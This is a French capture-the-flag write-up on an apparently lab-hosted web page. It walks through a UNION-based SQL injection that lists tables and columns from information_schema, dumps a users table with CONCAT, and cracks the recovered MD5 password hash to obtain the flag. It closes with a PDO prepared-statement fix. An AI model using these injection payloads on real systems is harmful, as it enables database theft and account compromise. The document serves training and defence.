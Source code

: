 # Vulnérabilité

Page member: `http://192.168.1.19/?page=member`

Premièrement, il faut tenter de savoir si il y a potentiellement une faille sql pour cela il faut faire cette requête SQL:

`1=1`

Une fois qu'on sait qu'il y a une faille sql, on va chercher a trouver toutes les tables de la base de données, pour cela on va faire une simple requête sql 

`1=1 UNION SELECT table_name, table_schema FROM information_schema.tables;`

Dans le résultat, on trouve une table nommée `users`avec un schéma `Member_Sql_Injection`

Puis on peut lister toutes les colonnes de toutes les tables avec cette injection : 

`1=1 UNION SELECT table_name, column_name FROM information_schema.columns;`

On récupère ainsi 8 colonnes qui nous intéressent : 

`user_id, first_name, last_name, town, country, planet, Commentaire et countersign`


On va donc récupérer toutes les informations de la table avec la méthode concat :

`1=1 UNION SELECT 1, CONCAT(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) FROM Member_Sql_Injection.users;`

On trouve le hash du mot de passe `5ff9d0165b4f92b14994e5c685cdce28`

J'utilise `https://md5decrypt.net/` pour décrypter le hash et on retrouve alors le mot de passe d'origine `FortyTwo`.
Enfin on encrypte en SHA256 (https://md5decrypt.net/Sha256) et on obtient le flag.



# Solution

Utilisez des requêtes préparées et des instructions paramétrées : Cette technique consiste à utiliser des instructions SQL avec des paramètres qui sont automatiquement échappés par PHP. Cela peut être réalisé avec les extensions PDO ou MySQLi en PHP.

Voici un exemple utilisant PDO :

```
$stmt = $pdo->prepare('SELECT * FROM users WHERE email = :email AND status=:status');
$stmt->execute(['email' => $email, 'status' => $status]);

```